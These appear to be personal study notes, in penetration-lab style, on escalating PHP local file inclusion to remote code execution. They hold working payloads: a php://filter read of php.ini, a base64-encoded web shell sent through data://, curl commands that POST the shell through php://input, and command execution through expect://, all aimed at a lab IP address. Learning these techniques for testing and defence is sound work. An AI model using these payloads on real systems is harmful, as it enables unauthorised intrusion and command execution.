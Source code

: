 might have to curl instead of just access it through a browser

### check config files
`/etc/php/X.Y/apache2/php.ini`
`/etc/php/X.Y/fpm/php.ini`
use LFI to read the file
```
php://filter/read=convert.base64-encode/resource=./../../../../etc/php/X.Y/apache2/php.ini
```

## Data
`allow_url_include` must be allowed in configuration file
allow external data like code to work

Encode this in base64
```shell-session
<?php system($_GET["cmd"]); ?>
```
`PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==`

Format of payload
```
data://text/plain;base64,BASE64_STRING&cmd=id
```

## Input
like data but post
need `allow_url_include` to be on also 
```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://94.237.55.43:43639/index.php?language=php://input&cmd=id" | grep uid
```

## Expect
settings: `extension=expect`
```shell-session
 curl -s "http://94.237.55.43:43639/index.php?language=expect://id"
```

Note: 
when you are trying to write a command but then they wld be spaces in the url, use + instead of blank